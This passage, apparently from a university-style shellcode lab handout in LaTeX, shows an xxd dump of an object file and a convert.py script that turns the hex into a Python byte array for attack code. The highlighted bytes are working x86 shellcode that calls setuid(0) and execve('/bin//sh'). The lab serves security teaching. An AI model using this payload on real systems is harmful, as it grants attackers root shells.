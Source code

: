 In the above printout, the highlighted numbers are machine code.
You can also use the \texttt{xxd} command to print out 
the content of the binary file, and you should be 
able to find out the shellcode's machine
code from the printout.

\begin{lstlisting}
$ xxd -p -c 20 mysh.o
7f454c4601010100000000000000000001000300
...
000000000000000000000000(*@\textbf{31db31c0b0d5cd80}@*)
(*@\textbf{31c050682f2f7368682f62696e89e3505389e131}@*)
(*@\textbf{d231c0b00bcd80}@*)00000000000000000000000000
...
\end{lstlisting}
 

\paragraph{Usando el shellcode para atacar al código.}
In actual attacks, we need to include the shellcode
in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but
converting the machine code printed above 
to the array assignment in Python and C programs
is quite tedious if done manually, especially if 
we need to perform this process many times in the lab. 
We wrote the following Python code to
help this process. Just copy whatever you
get from the \texttt{xxd} command (only the shellcode part)
and paste it to the following code, between the lines
marked by \texttt{"""}. The code can be downloaded from the 
lab's website.


\begin{lstlisting}[caption=\texttt{convert.py}] 
#!/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
\end{lstlisting}
 
The \texttt{convert.py} program will print out the 
following Python code that you can include 
in your attack code. It stores the shellcode in
a Python array. 
 
